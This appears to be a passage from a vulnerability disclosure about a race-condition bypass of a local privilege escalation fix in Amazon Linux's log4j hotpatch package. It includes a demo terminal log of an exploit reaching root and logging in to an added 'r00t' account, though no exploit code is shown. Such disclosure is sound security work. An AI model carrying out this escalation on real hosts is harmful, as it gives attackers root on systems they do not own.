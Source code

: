 Amazon issued updates to the above packagings of the hotpatch.

This document will **discuss the patch for the local privilege escalation in the Amazon Linux packaging of the utility, and a way in which the fix for the local privilege escalation can be bypassed due to a race condition bug**. Exploitation of the bypass can be demonstrated to achieve local privilege escalation on Amazon Linux machines running version 1.1-16 of the `log4j-cve-2021-44228-hotpatch` package.

Demo:

```plain
[ec2-user@ip-172-31-29-188 ~]$ time sudo -u nobody ./eop
Main loop: Spawning 32 workers
Main loop: Waiting for /tmp/hotpatch.esc.go to appear
Worker pid=20480 waiting for /tmp/hotpatch.esc.go to appear
Worker pid=20481 waiting for /tmp/hotpatch.esc.go to appear
Worker pid=20479 waiting for /tmp/hotpatch.esc.go to appear
Worker pid=20482 waiting for /tmp/hotpatch.esc.go to appear
Worker pid=20483 waiting for /tmp/hotpatch.esc.go to appear
Worker pid=20484 waiting for /tmp/hotpatch.esc.go to appear

[... SNIP ...]

crontab: no changes made to crontab
crontab: no changes made to crontab
crontab: no changes made to crontab
crontab: no changes made to crontab
crontab: no changes made to crontab
crontab: no changes made to crontab
EoP successful. Check /win and enjoy r00t :)

real    1m15.439s
user    0m2.427s
sys     0m0.685s

[ec2-user@ip-172-31-29-188 ~]$ cat /win
uid=0(root) gid=0(root) groups=0(root)

[ec2-user@ip-172-31-29-188 ~]$ su - r00t

[root@ip-172-31-29-188 ~]# id
uid=0(root) gid=0(root) groups=0(root)
```

Exploitation of this issue requires an attacker to already have low-privilege access to a machine running Amazon Linux with the hotpatch service installed and running. It allows them to escalate privileges from any user to root. It does not allow a remote attacker to gain any kind of initial access. It is nowhere near as significant as the bug in log4j that the hotpatch is hotpatching, however the presence of the hotpatch service creates local attack surface on all Amazon Linux hosts running it.

Similar issues may also be present in other packagings of the hotpatch such as the k8s daemonset and Hotdog. Similar issues may also be present in the cgroup controls introduced to prevent container breakouts. Some brief testing and analysis of the application of cgroup controls (to the best of the author's limited knowledge regarding containerisation security controls) indicates that there **probably isn't an exploitable race condition window in the containerisation security control application process**, but this would be an interesting opportunity for further work.
